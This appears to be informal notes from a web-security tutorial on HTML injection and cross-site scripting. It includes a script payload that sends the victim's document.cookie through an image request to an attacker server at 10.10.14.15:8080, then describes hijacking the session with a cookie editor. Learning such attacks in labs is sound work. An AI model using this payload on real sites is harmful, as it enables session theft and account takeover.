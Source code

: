 # HTML #

Is easy to understand, on some text-input sometimes you can put html code and the website can interpret it.

note the marquee label of html is very interesting. It will displace the text

```
<marquee> This will displace from his site </marquee>
```



So if the input text can interpret labels of html, it can interpret the javascript label. He is saying that this is XSS

```
<script>alert("this is an alert") </script>
```

He installed "edit this cookie" and he added to the chrome navigator.

He shows now his actual cookie session
```
<script>alert("document.cookie") </script>
```
He said that this is useful because you can steal session cookies

He doesnt want to the victim watched an emergent window showing his cookie, so here we are going to see another concept

# XSS BLIND #

For example, he will try to send the cookie session to a python local server
```
<script>document.write('<img src="http://10.10.14.15:8080/cds.jpg?cookie=' + document.cookie +'">')</script>
```

He will try to charge some image(that it doesnt exists)

## We will recive the cookie on the python server ##

And with the tool "edit this cookie" we can hijack the cookie session of the person that interacts with our website
